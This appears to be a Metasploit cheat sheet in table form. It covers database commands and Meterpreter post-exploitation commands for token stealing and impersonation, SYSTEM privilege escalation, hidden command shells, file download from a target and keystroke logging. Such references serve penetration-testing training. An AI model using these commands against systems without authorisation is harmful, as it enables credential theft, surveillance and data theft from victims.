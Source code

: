 |`db_create <name>`|Create a database to use with database-driven attacks (example: db_create autopwn).|
|`db_connect <name>`|Create and connect to a database for driven attacks (example: db_connect autopwn).|
|`db_nmap`|Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as –sT –v –P0.)|
|`db_destroy`|Delete the current database.|
|`db_destroy <user:password@host:port/database>`|Delete database using advanced options.|
|||

---

###  Meterpreter Commands

|**Command**|**Description**|
|:--|:--|
|`help`|Open Meterpreter usage help.|
|`run <scriptname>`|Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory.|
|`sysinfo`|Show the system information on the compromised target.|
|`ls`|List the files and folders on the target.|
|`use priv`|Load the privilege extension for extended Meterpreter libraries.|
|`ps`|Show all running processes and which accounts are associated with each process.|
|`migrate <proc. id>`|Migrate to the specific process ID (PID is the target process ID gained from the ps command).|
|`use incognito`|Load incognito functions. (Used for token stealing and impersonation on a target machine.)|
|`list_tokens -u`|List available tokens on the target by user.|
|`list_tokens -g`|List available tokens on the target by group.|
|`impersonate_token <DOMAIN_NAMEUSERNAME>`|Impersonate a token available on the target.|
|`steal_token <proc. id>`|Steal the tokens available for a given process and impersonate that token.|
|`drop_token`|Stop impersonating the current token.|
|`getsystem`|Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.|
|`shell`|Drop into an interactive shell with all available tokens.|
|`execute -f <cmd.exe> -i`|Execute cmd.exe and interact with it.|
|`execute -f <cmd.exe> -i -t`|Execute cmd.exe with all available tokens.|
|`execute -f <cmd.exe> -i -H -t`|Execute cmd.exe with all available tokens and make it a hidden process.|
|`rev2self`|Revert back to the original user you used to compromise the target.|
|`reg <command>`|Interact, create, delete, query, set, and much more in the target’s registry.|
|`setdesktop <number>`|Switch to a different screen based on who is logged in.|
|`screenshot`|Take a screenshot of the target’s screen.|
|`upload <filename>`|Upload a file to the target.|
|`download <filename>`|Download a file from the target.|
|`keyscan_start`|Start sniffing keystrokes on the remote target.|
|`keyscan_dump`|Dump the remote keys captured on the target.|
|`keyscan_stop`|Stop sniffing keystrokes on the remote target.|